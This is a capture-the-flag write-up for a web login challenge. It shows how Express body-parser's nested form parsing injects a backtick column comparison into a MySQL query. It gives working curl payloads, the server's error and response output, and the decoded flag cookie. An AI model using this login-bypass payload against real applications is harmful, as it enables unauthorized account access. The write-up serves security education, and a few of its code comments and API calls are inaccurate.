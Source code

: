 **Knowledge**:
- MySQL SELECT command (for payload construction)
- Node JS (for prototype testing)

**Task**: We are given a login form and webserver's logic. Our goal is to login as michelle.

**Investigation**: 
- Test with common SQL injections. Failed
- Test with standard user/pass = admin/admin. Passed

Upon navigating through the `/flag` directory, we are informed that only "Michelle's account" would see the flag. Since common SQL injections do not work, we need to understand how server parses the login form. Base on the source `app.js`, the express server uses `bodyParser` module to process the form. With "extended" property is set to true, the form will be parsed as follows:
```javascript
var bP = require("bodyParser")
var ret = bP.parse("password[age]=13")
console.log(ret) # The result is {password:{'age'='13'}}
```
We now have some ideas of what should be included in the form. Let's setup the local server (web, database) and observe how the webserver parses our payload.

```bash
curl -v http://localhost:3000/login -d 'username=michelle&password[age]=13'
#-v tells the target webserver
#-d tells what data we will post to the server
```
We are presented with the following error:
```bash
code: 'ER_BAD_FIELD_ERROR',
errno: 1054,
sqlMessage: "Unknown column 'age' in 'where clause'",
sqlState: '42S22',
index: 0,
sql: "Select * from users where username = 'michelle' and password = `age` = '13'"
```

The error is informative. It tells us how the final sql statement looks like, and what error we should fix to make our payload works. Since backtick is allowed, `age` is evaluated as a column. We were asking for a user whose username is michelle and his password is equal to his age, which does not exist in the database. To fix this, we can change the payload so that the statement becomes:

```ruby
Select * from users where username = 'michelle' and password = `password` = '13'
```

Since the `password` column is known, we fixed the error. However, we need to handle the '13'. Leaving it empty will cause syntax error, while filling it with random number will not give us the row with michelle's account. MySQL evaluates the whole statement from left to right, which means that password = `password` would be compared first, then the output of the first comparison is evaluated against '13'. Since the first equality is evaluated to 1 (true), the second equality is evaluated to 0 (false), as '1'!='13'. To solve this, we set 13 to 1. Our expected sql statement is then:

```ruby
Select * from users where username = 'michelle' and password = `password` = '1'
```
The above sql statement can be generated from the following payload:

```bash
curl -v http://localhost:3000/login -d 'username=michelle&password[password]=1' 
```

Replacing the local address with log-me-in website, we can obtain michelle's session:

```bash
#Request
curl -v https://log-me-in.web.ctfcompetition.com/login -d'username=michelle&password[password]='1''

#Response
 POST /login HTTP/2
> Host: log-me-in.web.ctfcompetition.com
> user-agent: curl/7.68.0
> accept: */*
> content-length: 38
> content-type: application/x-www-form-urlencoded
> 
* We are completely uploaded and fine
* Connection state changed (MAX_CONCURRENT_STREAMS == 100)!
< HTTP/2 302 
< content-type: text/plain; charset=utf-8
< x-powered-by: Express
< location: /me
< vary: Accept
< set-cookie: session=eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9; path=/; httponly
< set-cookie: session.sig=bm5eHrmgRjBNmerS49mKNDV_tP4; path=/; httponly
< x-cloud-trace-context: 0454fe252df470a913b976399f989e68
< date: Sat, 29 Aug 2020 07:55:09 GMT
< server: Google Frontend
< content-length: 25
< 
* Connection #0 to host log-me-in.web.ctfcompetition.com left intact
Found. Redirecting to /me.
```

Decoding the cookie-session with base64, we obtain the flag:

{"username":"michelle","flag":"CTF{a-premium-effort-deserves-a-premium-flag}"}
